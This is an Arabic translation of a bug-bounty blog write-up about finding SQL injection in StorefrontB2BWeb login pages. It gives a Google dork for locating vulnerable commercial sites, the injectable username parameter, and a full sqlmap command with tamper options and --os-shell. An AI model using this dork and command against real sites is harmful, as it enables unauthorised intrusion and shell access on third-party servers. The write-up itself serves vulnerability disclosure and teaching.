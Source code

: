 ```yaml
---
layout: post
title: من ثغرة SQL Injection إلى لوحة الشرف
---
```


![Username](/assets/image/002/main.png)

يغفل العديد من الناس الذين يعملون في مجال (Bug Bounty الإبلاغ عن الثغرات) عن أهمية إستخدام (Google Dorks) وهو تكنيك بحث متقدم يساعدك على إيجاد المعلومات التي عادتا قد لا تجدها بسهولة في الموقع الإليكتروني .

ومسمى أخر ل (Google Dork) هو (Google Hacking) والذي يعني أيضا إيجاد معلومات من الصعب الوصول إليها بمجرد إستخدام كلمة بحث بسيطة في محرك البحث ويمكنك الإطلاع أكثر عن هذا الموضوع [من هنا](https://whatis.techtarget.com/definition/Google-dork-query)



موخرََا عثرت على (Google Dork) يمكنك من العثور على مواقع تجارية مصابة بثغرة (SQL Injection)
والمكتشف الأصلي لهذه الطريقة هو مختبر إختراق بإسم ratboy.
```
inurl:storefrontb2bweb
```
بمجرد كتابة هذه الجملة في محرك البحث نجد أنه هناك 4 صفح من النتائج ولكن للأسف أغلب المواقع المصابة بالثغرة لا تمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
ولكن لحسن الحظ وجدت موقع من تلك المواقع يمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
وال(Parameter) المصاب هو (username parameter) الذي يرجع خطأ (SQL) عندما نستخدم (علامة إقتباس Single Quotation).

![Username](/assets/image/002/2.jpeg)

يمكننا إستغلال تلك الثغرة بإستخدام أداة SQLMAP
```
python sqlmap.py -u"http://localhost/storefrontB2BWEB/login.do?setup_principal=true&action=prepare_forgot&login=true&usr_name=foo"
-p usr_name --dbms=mssql --level=5 --risk=3
--tamper=between,space2comment -o --random-agent --parse-errors
--os-shell --technique=ES
```
يمكننا إصلاح تلك الثغرة عن طريق (التأكد من المدخلات User Input Validation)

عندما أبلغت عن هذه الثغرة دخلت لوحة الشرف. ومنتهى أملي أن كل الشركات المصابة بهذه الثغرات تأخذ الخطوات اللازمة لإصلاح هذه المشكلة والأهم هو إيجاد وسيلة للإبلاغ عنها إذا وجدت


**إسم الكاتب :** [Jadek Mark](https://twitter.com/mase289)
**إسم المترجم :** [محمد ناصف](https://muhammadnasef.com/)
**تاريخ النشر :** 15 فبراير 2021
**رابط المقالة الأصلية :** [من هنا](https://bit.ly/2Mpmf4T)